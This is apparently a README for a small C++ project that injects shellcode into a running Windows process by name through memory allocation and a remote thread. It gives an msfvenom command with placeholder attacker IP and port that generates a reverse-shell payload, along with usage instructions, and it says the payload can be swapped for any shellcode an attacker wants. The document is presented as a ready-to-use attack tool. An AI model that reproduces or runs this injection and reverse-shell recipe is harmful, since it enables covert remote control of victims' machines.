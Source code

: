 # Simple-Code-Injection
A simple code injection project writing in C++ using Windows API functions to inject malicious payload to process running on Windows system. The program will open a handle of target running process by it's name, then allocate a memory region and copy the payload into it. Finnally, it will create a new thread on target process to execute the payload to establish a reverse connection

Generate payload from msfvenom:

```msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker's ip> LPORT=<attcker's port> -f c```

Usage:

```simple.exe <process's name>```

Example:

```simple.exe calc.exe```

*Note: you need to have the target process running before execute the program to be able to inject payload into it*
*Note: the payload can be any shellcode to do anything the attacker want, just modify it. The example payload i used is generated by msfvenom to make a reverse shell"*
